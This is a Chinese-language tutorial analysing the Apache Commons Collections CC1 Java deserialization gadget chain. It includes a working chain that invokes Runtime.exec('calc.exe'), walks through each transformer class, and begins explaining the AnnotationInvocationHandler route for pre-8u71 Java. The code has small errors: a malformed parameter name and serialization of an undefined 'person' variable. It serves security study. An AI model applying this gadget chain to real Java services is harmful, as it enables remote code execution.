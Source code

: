 ### CC链的介绍

>   Apache Commons 当中有⼀个组件叫做 Apache Commons Collections ，主要封装了Java 的 Collection(集合) 相关类对象，它提供了很多强有⼒的数据结构类型并且实现了各种集合工具类。
>
> 作为Apache开源项⽬的重要组件，Commons Collections被⼴泛应⽤于各种Java应⽤的开发，⽽正 是因为在⼤量web应⽤程序中这些类的实现以及⽅法的调⽤，导致了反序列化⽤漏洞的普遍性和严重性。
>
> Apache Commons Collections中有⼀个特殊的接口，其中有⼀个实现该接口的类可以通过调用 Java的反射机制来调用任意函数，叫做InvokerTransformer。

* 简单来说就是利用org.apache.commons.collections中的各种类构成的序列化对象,实现序列化漏洞的利用.由于该库中的各种类极其丰富,有不止一种链条来引发反序列化漏洞.

### P牛的CommonCollections1分析

#### 代码分析

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.util.HashMap;
import java.util.Map;

public class CommonCollections1 {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.getRuntime()),
                new InvokerTransformer("exec", new Class[]{String.class},
                        new Object[]
                                {"calc.exe"}),
        };

        Transformer transformerChain = new
                ChainedTransformer(transformers);

        Map innerMap = new HashMap();
        Map outerMap = TransformedMap.decorate(innerMap, null,
                transformerChain);
        outerMap.put("test", "xxxx");
    }
}
```

```java
//  Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);
// 对innerMap进行修饰,当返回对象outerMap put(key,value)时,调用了transformerChain.transform(key)
public static Map decorate(Map map, Transformer keyTransformer, Transformer 10valueTransformer) {
    return new TransformedMap(map, keyTransformer, valueTransformer);
}

protected TransformedMap(Map map, Transformer keyTransformer, Transformer valueTransformer) {
    super(map);
    this.keyTransformer = keyTransformer;
    this.valueTransformer = valueTransformer;
}

public Object put(Object key, Object value) {
    key = transformKey(key);
    value = transformValue(value);  
    return getMap().put(key, value);
}

protected Object transformKey(Object object) {
    if (keyTransformer == null) {
        return object;  
    }
    return keyTransformer.transform(object);
}

protected Object transformValue(Object object) {
    if (valueTransformer == null) {
        return object;
    }
    return valueTransformer.transform(object);
}
```

```java
// 来到了transformerChain.transform(key)
// Transformer transformerChain = new ChainedTransformer(transformers);
// transformerChain.transform(key)遍历调用了数组transformers中的元素的方法transform
public class ChainedTransformer implements Transformer, Serializable {
    // ......
    public ChainedTransformer(Transformer[] transformers) {
        super();
        iTransformers = transformers;
    }
    // Transformer是一个接口,只有一个待实现的方法transform
    public Object transform(Object object) {
            for (int i = 0; i < iTransformers.length; i++) {
                object = iTransformers[i].transform(object);
            }
            return object;
        }
    // ......
}
```

```java
// 再来到数组transformers
/* Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.getRuntime()),
                new InvokerTransformer("exec", new Class[]{String.class},
                        new Object[]
                                {"calc.exe"}),
        };*/
// new ConstantTransformer(Runtime.getRuntime())
public class ConstantTransformer implements Transformer, Serializable {
    // ...
     public ConstantTransformer(Object constantToReturn) {
        super();
        iConstant = constantToReturn;
    }
    public Object transform(Object input) {
        return iConstant;
    }
    // ...
}
// new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"})
public class InvokerTransformer implements Transformer, Serializable {
    // ...
    public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args) {
        super();
        iMethodName = methodName;
        iParamTypes = paramTypes;
        iArgs = args;
    }
    public Object transform(Object input) {
        if (input == null) {
            return null;
        }
        try {
            Class cls = input.getClass();
            Method method = cls.getMethod(iMethodName, iParamTypes);
            return method.invoke(input, iArgs);
                
        } catch (NoSuchMethodException ex) {
            throw new FunctorException("InvokerTransformer: The method '" + iMethodName + "' on '" + input.getClass() + "' does not exist");
        } catch (IllegalAccessException ex) {
            throw new FunctorException("InvokerTransformer: The method '" + iMethodName + "' on '" + input.getClass() + "' cannot be accessed");
        } catch (InvocationTargetException ex) {
            throw new FunctorException("InvokerTransformer: The method '" + iMethodName + "' on '" + input.getClass() + "' threw an exception", ex);
        }
    }
    // ...
}
```

```java
// 所以key="test";transformerChain.transform(key)实际上执行了什么
// transformers[0].transform("test")
object = (Object) Runtime.getRuntime();

// transformers[1].transform(object)
Class cls = object.getClass();
Method method = cls.getMethod("exec", new Class[]{String.class});
method.invoke(object, new Object[]{"calc.exe"});
```

#### 不是真正POC的原因

先前例子中,我们手工执行outerMap.put("test", "xxxx")触发了反序列化漏洞,但是在正常的反序列化漏洞利用场景中,序列化对象只是一个类,即:

```java
Transformer[] transformers = new Transformer[]{
        new ConstantTransformer(Runtime.getRuntime()),
        new InvokerTransformer("exec", new Class[]{String.class},
                new Object[]
                        {"calc.exe"}),
};

Transformer transformerChain = new
        ChainedTransformer(transformers);

Map innerMap = new HashMap();
Map outerMap = TransformedMap.decorate(innerMap, null,
        transformerChain);

// 序列化对象
try (FileOutputStream fos = new FileOutputStream("person.ser");
             ObjectOutputStream oos = new ObjectOutputStream(fos)) {
    oos.writeObject(person);
    System.out.println("Person 对象已经被序列化到 person.ser 文件");
} catch (IOException e) {
    e.printStackTrace();
}
```

此时,我们虽然得到了outerMap的序列化对象,但是当其被反序列化时,如果readObject方法中没有outerMap.put这个方法,其也不可能触发反序列化漏洞

### 8u71前的CommonCollections1

前文的例子中的序列化对象缺少一个outerMap.put来触发漏洞，自然地，我们继续地去寻找类，在其readObject中能够进行outerMap.put操作，这个类就sun.reflect.annotation.AnnotationInvocationHandler，注意这个类是Java的内部实现类，位于sun.reflect.annotation包下，所以它在Java的不同版本下实现可能是不同的，所以现在使用到AnnotationInvocationHandler的这条链只能在java8u71之前触发漏洞
